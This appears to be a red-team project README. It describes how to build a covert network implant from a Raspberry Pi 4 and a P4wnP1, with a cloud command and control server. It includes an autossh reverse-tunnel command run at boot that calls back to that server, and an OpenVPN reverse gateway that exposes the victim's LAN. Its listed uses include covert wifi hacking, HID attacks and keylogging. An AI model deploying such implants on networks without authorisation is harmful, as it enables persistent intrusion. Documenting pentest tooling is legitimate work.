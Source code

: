 # dropbox
I have 2 raspberry pi's that I use for red teaming. One of them is p4wnp1 which is an HID hacking tool that is running Kali Linux on a raspberry pi zero.
I also have a raspberry pi 4 that I use as a dropbox. I will describe how I got this to work and how I set everything up.

## command and control server
To get this whole thing to work I need a command and control server.
This server can be used by the dropbox to connect to it.
This server must be always reachable otherwise the dropbox can't be connected to so will be useless.
This server can be a digital ocean server because I have a server at home I could also use that but for security reasons, I will use a digital ocean VPS.
I have created a droplet with the least resources because there isn't much required from this server.
![Digital Ocean](images/digitalocean.png)

One of the key components of a dropbox is to get a connection remotely after dropping it somewhere.
This can be accomplished by a reverse ssh connection or a reverse VPN connection.
For this to work 

## Raspberry pi 4
I already have Kali Linux for arm installed on my raspberry pi 4 but this is not enough for using it as a dropbox.
To set this up you want it to be able to be dropped somewhere easy and fast and connect to it remotely after dropping it.

To get the dropbox to work I needed that kali to automatically login because if we don't do that the pi won't connect to the internet.
I have created keys and copied them to all the needed devices to have a secure connection with key authentication.

### Autossh
auto ssh needs to be installed this makes a connection with an ssh server and keeps monitoring it for reconnection.
I use keys for authentication these keys I copied before.
To make autossh work it needs to be running at bootup.
I used rc-local to run it on bootup by using this code in /etc/systemd/system/rc-local.service

```
[Unit]
 Description=/etc/rc.local Compatibility
 ConditionPathExists=/etc/rc.local
[Service]
 Type=forking
 ExecStart=/etc/rc.local start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

I also added the next code to /etc/rc.local
```
#!/bin/bash -e
autossh -M $mp -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 60" -o "ServerAliveCountMax 3" -R $FUID:localhost:22 -i /root/.ssh/id_rsa $cncuser@$cncip &
exit 0
```

After setting up all of this I can ssh into the pi 4 without being connected to the same network through the command and control server.

## Improvements
I have attached a wireless USB adapter to have more range and wifi hacking possibilities.
I also handmade a small ethernet cable to make it more convenient when dropping it and making it less bulky.
There is an external battery to make it possible to drop in places where you can't use a wall socket.
After some time with tinkering around with the autossh, I thought it would be better to use a [reverse vpn](#reverse-VPN-gateway) that way I have full access over the machine not only ssh.
This I will do in combination with the auto ssh to always have a backup if anything goes wrong with one of them.
![pi4 dropbox](images/dropboxpi4.jpg)

## P4wnp1
The p4wnp1 is running a full set of Kali Linux it also has access to HID attacks.
Because of this, it is really interesting to make this toolkit remotely accessible.
This way you have a small machine with all the potential without having to stay at a certain location
You don't have many resources but that is not always needed.
The only downside is that without any adapters you only have wifi to access the internet.
So you need to have the wifi password to use p4wnp1 as a dropbox.

### Reverse VPN gateway
Because we want full access to the p4wnp1 we can use a VPN server.
But not only can we make our VPN server let us access our p4wnp1.
We can also make it a reverse VPN Gateway and by doing that we can access the whole network the p4wnp1 is connected to.
This reverse VPN gateway is also handy to use with my raspberry pi 4.

I can do this by using the same command and control server.
I will install OpenVPN on the server and after that configure the p4wnp1 to work as a reverse VPN gateway.

When OpenVPN is installed you can open the admin page most of the things are already set up correctly.
You have to add a user for your pentesting machine mine is called Merlijn and one for your dropbox mine is called dropbox.
These two should have auto login permissions especially the dropbox.
![openvpn users](images/users.png)

When both of the users are added you should go into more settings of dropbox and enable VPN gateway.
Here you have to specify what network the gateway should work on I have set the most used network 192.168.1.1/24
this can later be changed or extended depending on your target.
![openvpn gateway](images/gateway.png)

After setting this all up I can just connect to the OpenVPN server with my kali machine.
When connected to the OpenVPN server I can now access the network my dropbox is connected to.
Both the clients/ client and gateway are connected.
![openvpn gateway](images/connected.png)


TODO traceroute


# Usages
these dropboxes can be used for multiple things.
- remotely have access to a pentest location.
- remotely doing some wifi hacking without being noticed for being a long time in a place.
- Getting access to a secured environment without staying there for too long.
- in the case of p4wnp1 remotely executing HID attacks or keylogging.